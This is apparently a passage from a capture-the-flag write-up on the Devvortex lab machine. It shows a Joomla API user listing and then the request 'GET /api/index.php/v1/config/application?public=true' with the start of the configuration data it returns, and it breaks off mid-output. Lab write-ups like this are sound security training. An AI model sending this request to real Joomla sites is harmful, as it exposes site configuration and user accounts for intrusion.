 ```json
      "type": "users",
      "id": "650",
      "attributes": {
        "id": 650,
        "name": "logan paul",
        "username": "logan",
        "email": "logan@devvortex.htb",
        "block": 0,
        "sendEmail": 0,
        "registerDate": "2023-09-26 19:15:42",
        "lastvisitDate": null,
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Registered"
      }
    }
  ],
  "meta": {
    "total-pages": 1
  }
}
```

`GET /api/index.php/v1/config/application?public=true HTTP/1.1`
```json
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline": false,
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_message": "This site is down for maintenance.<br>Please check back again soon.",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "display_offline_message": 1,
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_image": "",
```
